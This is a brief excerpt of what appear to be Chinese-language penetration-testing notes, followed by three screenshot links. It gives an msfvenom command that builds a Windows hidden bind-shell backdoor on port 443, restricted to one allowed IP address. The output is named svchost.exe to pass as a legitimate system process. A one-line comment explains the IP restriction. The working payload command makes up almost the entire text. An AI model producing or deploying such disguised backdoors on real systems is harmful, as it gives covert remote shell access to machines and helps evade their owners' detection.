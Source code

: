 	>msfvenom -p windows/shell_hidden_bind_tcp LPORT=443 AHOST=192.168.0.107 -f exe > svchost.exe
	只有当107这台机器连接时可获得shell，其他机器不可以。
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/568.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/569.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/570.png)